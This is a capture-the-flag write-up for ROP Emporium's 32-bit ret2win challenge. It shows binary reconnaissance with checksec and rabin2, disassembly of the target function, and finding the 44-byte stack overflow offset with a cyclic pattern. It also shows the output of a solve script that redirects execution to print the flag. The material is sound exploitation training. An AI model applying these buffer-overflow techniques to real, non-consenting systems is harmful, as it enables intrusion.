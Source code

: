 # ret2win | ROP Emporium

```bash
kali@kali:~/Desktop/rop$ file ret2win32 
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped
kali@kali:~/Desktop/rop$ checksec ret2win32
Error: No option selected. Please select an option.

kali@kali:~/Desktop/rop$ checksec --file=ret2win32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   72) Symbols       No    0               3               ret2win32
```

## Steps
### 1. Investigate binary
Function names and symbol names:
```bash
kali@kali:~/Desktop/rop$ rabin2 -i ret2win32 
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x080483b0 GLOBAL FUNC       read
2   0x080483c0 GLOBAL FUNC       printf
3   0x080483d0 GLOBAL FUNC       puts
4   0x080483e0 GLOBAL FUNC       system
5   0x00000000 WEAK   NOTYPE     __gmon_start__
6   0x080483f0 GLOBAL FUNC       __libc_start_main
7   0x08048400 GLOBAL FUNC       setvbuf
8   0x08048410 GLOBAL FUNC       memset

kali@kali:~/Desktop/rop$ nm -u ret2win32 
         w __gmon_start__
         U __libc_start_main@@GLIBC_2.0
         U memset@@GLIBC_2.0
         U printf@@GLIBC_2.0
         U puts@@GLIBC_2.0
         U read@@GLIBC_2.0
         U setvbuf@@GLIBC_2.0
         U system@@GLIBC_2.0
```
Attempt to show just functions written by the programmer of the binary:
```bash
kali@kali:~/Desktop/rop$ rabin2 -qs ret2win32 | grep -ve imp -e ' 0 '
0x0804a030 4 stdout
0x080486dc 4 _IO_stdin_used
0x0804a034 1 completed.7283
0x080485ad 127 pwnme
0x0804862c 41 ret2win
0x080486c0 2 __libc_csu_fini
0x08048480 4 __x86.get_pc_thunk.bx
0x08048660 93 __libc_csu_init
0x08048470 2 _dl_relocate_static_pie
0x080486d8 4 _fp_hw
0x0804a030 4 stdout@@GLIBC_2.0
0x08048546 103 main
```
Can see there is main, ret2win and pwnme that stand out as functions probably written by the programmer.  
Strings in the binary:
```bash
ali@kali:~/Desktop/rop$ rabin2 -z ret2win32 
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000006e0 0x080486e0 23  24   .rodata ascii ret2win by ROP Emporium
1   0x000006f8 0x080486f8 4   5    .rodata ascii x86\n
2   0x000006fd 0x080486fd 8   9    .rodata ascii \nExiting
3   0x00000708 0x08048708 95  96   .rodata ascii For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
4   0x00000768 0x08048768 29  30   .rodata ascii What could possibly go wrong?
5   0x00000788 0x08048788 95  96   .rodata ascii You there, may I have your input please? And don't worry about null bytes, we're using read()!\n
6   0x000007eb 0x080487eb 10  11   .rodata ascii Thank you!
7   0x000007f6 0x080487f6 28  29   .rodata ascii Well done! Here's your flag:
8   0x00000813 0x08048813 17  18   .rodata ascii /bin/cat flag.txt
```
When looking at the ret2win function in radare2, it can be seen the flag.txt file is read using cat.
```bash
[0x08048430]> pdf @sym.ret2win
┌ 41: sym.ret2win ();
│           0x0804862c      55             push ebp
│           0x0804862d      89e5           mov ebp, esp
│           0x0804862f      83ec08         sub esp, 8
│           0x08048632      83ec0c         sub esp, 0xc
│           0x08048635      68f6870408     push str.Well_done__Here_s_your_flag: ; 0x80487f6 ; "Well done! Here's your flag:" ; const char *s
│           0x0804863a      e891fdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x0804863f      83c410         add esp, 0x10
│           0x08048642      83ec0c         sub esp, 0xc
│           0x08048645      6813880408     push str.bin_cat_flag.txt   ; 0x8048813 ; "/bin/cat flag.txt" ; const char *string
│           0x0804864a      e891fdffff     call sym.imp.system         ; int system(const char *string)
│           0x0804864f      83c410         add esp, 0x10
│           0x08048652      90             nop
│           0x08048653      c9             leave
└           0x08048654      c3             ret
[0x08048430]> 
```
This is the funcion that needs to be reached.

### 2. Figure out the payload
First find the offset at which to place the payload. I'm just going to fill the 56 byte stack buffer with cyclic input and then retrieve the segfault message.
```bash
kali@kali:~/Desktop/rop$ sudo dmesg -C
kali@kali:~/Desktop/rop$ python -c "from pwn import cyclic; print(cyclic(56))" | ./ret2win32 
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Segmentation fault
kali@kali:~/Desktop/rop$ sudo dmesg -t
ret2win32[3721]: segfault at 6161616c ip 000000006161616c sp 00000000fff8ee80 error 14 in libc-2.30.so[f7ce5000+1d000]
Code: Bad RIP value.
kali@kali:~/Desktop/rop$ python -c "from pwn import cyclic_find; print(cyclic_find(0x6161616c))"
44
```
With the offset known, I can now construct an exploit to jump to the desired function (see solve.py).

### 3. Run against the binary to win
```bash
kali@kali:~/Desktop/rop$ python solve.py 
[*] '/home/kali/Desktop/rop/ret2win32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/kali/Desktop/rop/ret2win32': pid 2621
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> 
Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Stopped process '/home/kali/Desktop/rop/ret2win32' (pid 2621)
```

## Differences in architecture
I also did the x64 binary, which is the same process except the offset is 4 bytes less with a longer (64 bit) ret2win address.
